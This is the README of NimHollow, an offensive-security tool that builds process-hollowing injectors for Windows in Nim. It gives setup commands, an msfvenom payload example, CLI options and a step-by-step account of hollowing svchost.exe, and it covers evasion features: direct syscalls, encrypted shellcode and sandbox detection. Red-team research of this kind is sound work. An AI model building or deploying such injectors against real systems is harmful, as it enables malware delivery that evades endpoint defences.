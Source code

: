 NimHollow
==========

Playing around with the [Process Hollowing](https://attack.mitre.org/techniques/T1055/012/) technique using Nim.

Features:

* Direct syscalls for triggering Windows Native API functions with [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers) or [NimlineWhispers2](https://github.com/ajpc500/NimlineWhispers2).
* Shellcode encryption/decryption with [AES in CTR mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Counter_(CTR)).
* Simple sandbox detection methods from the OSEP course by @offensive-security.

> **DISCLAIMER.** All information contained in this repository is provided for educational and research purposes only. The author is not responsible for any illegal use of this tool.

## Usage

Installation:

```console
~$ git clone --recurse-submodules https://github.com/snovvcrash/NimHollow && cd NimHollow
~$ git submodule update --init --recursive
~$ nimble install winim nimcrypto
~$ pip3 install -r requirements.txt
~$ sudo apt install upx -y
```

Example:

```console
~$ msfvenom -p windows/x64/messagebox TITLE='MSF' TEXT='Hack the Planet!' EXITFUNC=thread -f raw -o shellcode.bin
~$ python3 NimHollow.py shellcode.bin -i 'C:\Windows\System32\svchost.exe' -o injector --upx --rm [--whispers2]
~$ file injector.exe
injector.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows
```

Help:

```
usage: NimHollow.py [-h] [-i IMAGE] [-o OUTPUT] [--whispers2] [--debug] [--upx] [--rm] shellcode_bin

positional arguments:
  shellcode_bin         path to the raw shellcode file

optional arguments:
  -h, --help            show this help message and exit
  -i IMAGE, --image IMAGE
                        process image to hollow (default "C:\Windows\System32\svchost.exe")
  -o OUTPUT, --output OUTPUT
                        output filename
  --whispers2           use NimlineWhispers2 to generate syscalls.nim
  --debug               do not strip debug messages from Nim binary
  --upx                 compress Nim binary with upx
  --rm                  remove Nim files after compiling the binary
```

## Process Hollowing in Slides

1\. Create the target process (e.g., `svchost.exe`) in a suspended state.

![](https://user-images.githubusercontent.com/23141800/132571935-07adfa73-f33d-4c37-b21c-7f8534699a8d.png)

2\. Query created process to extract its base address pointer from PEB (**P**rocess **E**nvironment **B**lock).

![](https://user-images.githubusercontent.com/23141800/132571944-de967c1f-1518-4d91-a4d6-4d63120017d7.png)

3\. Read 8 bytes of memory (for 64-bit architecture) pointed by the image base address *pointer* in order to get the actual value of the image base address.

![](https://user-images.githubusercontent.com/23141800/132571951-fb9b08b4-b6ab-4ae9-9387-e6f316fd4500.png)

4\. Read 0x200 bytes of the loaded EXE image and parse PE structure to get the EntryPoint address.

![](https://user-images.githubusercontent.com/23141800/132571964-588c830e-de06-4b09-a708-b32c4150a17c.png)

5\. Write the shellcode to the EntryPoint address and resume thread execution.

![](https://user-images.githubusercontent.com/23141800/132572990-cee11f80-59d4-4fd2-a7f7-245805554b35.png)

## Credits

* @ajpc500 for the [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers) and [NimlineWhispers2](https://github.com/ajpc500/NimlineWhispers2) projects.
* @byt3bl33d3r for the [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/) repository.
* @S3cur3Th1sSh1t and @chvancooten for Nim [code](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim) [snippets](https://github.com/byt3bl33d3r/OffensiveNim/issues/16).

